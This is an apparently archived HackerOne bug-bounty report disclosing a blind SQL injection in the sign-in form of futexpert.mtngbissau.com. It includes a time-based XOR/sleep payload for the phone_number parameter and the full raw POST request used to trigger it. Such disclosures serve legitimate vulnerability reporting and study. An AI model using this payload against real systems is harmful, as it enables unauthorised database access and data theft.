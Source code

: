# Blind SQL Injection 

## Report Details
- **Report ID**: 1069531
- **URL**: https://hackerone.com/reports/1069531
- **State**: Closed
- **Severity**: critical
- **Submitted**: 2021-01-01T04:16:30.256Z
- **Disclosed**: 2021-08-14T18:34:29.431Z

## Reporter
- **Username**: lu3ky-13
- **Name**: N/A

## Team
- **Name**: N/A
- **Handle**: mtn_group

## Vulnerability Information
hello dear support

I have found Blind SQL Injection on https://futexpert.mtngbissau.com/signin/
parameters injectable phone_number=0&pin=1&submit=Continuar via post
URL:https://futexpert.mtngbissau.com/signin/
Post: email=0
my payload : phone_number=0'XOR(if(now()=sysdate()%2Csleep(0)%2C0))XOR'Z&pin=1&submit=Continuar

HTTP request
==========
```
POST /signin/ HTTP/1.1
Host: futexpert.mtngbissau.com
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64; rv:84.0) Gecko/20100101 Firefox/84.0
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/webp,*/*;q=0.8
Accept-Language: en-US,en;q=0.5
Accept-Encoding: gzip, deflate
Content-Type: application/x-www-form-urlencoded
Content-Length: 116
Origin: https://futexpert.mtngbissau.com
Connection: close
Referer: https://futexpert.mtngbissau.com/signin/
Cookie: _ga=GA1.2.807090149.1609258213; _gid=GA1.2.432006610.1609466934; PHPSESSID=87pejs8h0usb0ill37hit63an5
Upgrade-Insecure-Requests: 1

phone_number=0%27XOR%28if%28now%28%29%3Dsysdate%28%29%2Csleep%2812%29%2C0%29%29XOR%27Z+%3D%3E&pin=1&submit=Continuar

```

if you need more info I'm here thank you

## Impact

An attacker can use SQL injection it to bypass a web application's authentication and authorization mechanisms and retrieve the contents of an entire database. SQLi can also be used to add, modify and delete records in a database, affecting data integrity. Under the right circumstances, SQLi can also be used by an attacker to execute OS commands, which may then be used to escalate an attack even further.

## Attachments
No attachments
